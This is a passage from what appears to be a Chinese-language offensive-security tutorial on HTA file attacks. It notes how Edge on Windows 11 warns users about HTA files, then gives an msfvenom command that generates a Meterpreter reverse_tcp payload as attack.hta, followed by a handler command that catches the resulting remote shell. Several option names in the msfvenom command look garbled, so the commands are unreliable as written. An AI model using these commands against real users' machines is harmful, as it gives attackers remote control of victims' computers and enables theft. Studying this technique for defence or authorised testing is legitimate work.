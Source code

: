 ![Windows11 Edge hta 下载存在打开按钮.png](assets/1698895429-b567117e394bbc3589cd94d19870b050.png)

这里以 Windows 11 上 Edge 为例，点击打开会有警告提示。

![Windows11 运行 hta 警告.png](assets/1698895429-6141296cbba3278e0216f6e471c7b31e.png)

2.HTA 反弹 MSF

msfvenom 生成 HTA 文件。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhos=<Host> loport=<Port> -f htfa-psh -o attack.hta
```

msf 监听即可。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```
